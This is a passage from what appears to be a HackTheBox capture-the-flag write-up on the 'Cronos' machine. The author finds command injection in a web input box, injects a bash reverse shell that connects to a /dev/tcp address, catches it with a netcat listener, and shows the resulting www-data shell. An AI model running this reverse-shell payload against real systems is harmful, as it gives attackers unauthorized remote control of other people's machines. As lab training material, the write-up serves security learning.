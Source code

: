As we are given a user input box, we should test for command injection.

![command_injection](command_injection.png)

Great, it seems like we can issue some malicious commands. Let’s start a netcat listener and inject a bash reverse shell command `bash -c 'exec bash -i &>/dev/tcp/10.10.14.9/1234 <&1'`

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.13] 39618
bash: cannot set terminal process group (1388): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ whoami
whoami
www-data
```
